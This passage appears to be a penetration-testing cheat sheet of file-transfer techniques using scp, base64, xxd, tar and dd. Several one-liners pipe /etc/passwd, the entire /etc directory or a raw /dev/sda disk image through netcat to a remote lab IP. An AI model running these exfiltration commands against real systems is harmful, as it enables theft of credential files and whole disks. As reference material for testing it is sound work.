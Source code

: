 **Download File:**
```bash
scp user@10.10.10.32:/tmp/file.txt /tmp/
```

**Upload File:**
```bash
scp /tmp/file.txt user@10.10.10.32:/tmp/
```

### Base64

**Description:** Base64 encoding/decoding utility.

**Encode and Transfer:**
```bash
# Encode file
base64 /etc/passwd | nc 10.10.10.32 8000

# Receive and decode
nc -l -p 8000 | base64 -d > passwd_copy
```

### Xxd

**Description:** Hex dump utility.

**Transfer via Hex:**
```bash
# Encode
xxd -p /etc/passwd | nc 10.10.10.32 8000

# Decode
nc -l -p 8000 | xxd -r -p > passwd_copy
```

### Tar

**Description:** Archive utility.

**Transfer Archive:**
```bash
# Create and send
tar czf - /etc/ | nc 10.10.10.32 8000

# Receive and extract
nc -l -p 8000 | tar xzf - -C /tmp/
```

### DD

**Description:** Data duplicator/converter.

**Transfer Raw Data:**
```bash
# Send disk image
dd if=/dev/sda | nc 10.10.10.32 8000

# Receive disk image
nc -l -p 8000 | dd of=/tmp/disk.img
```
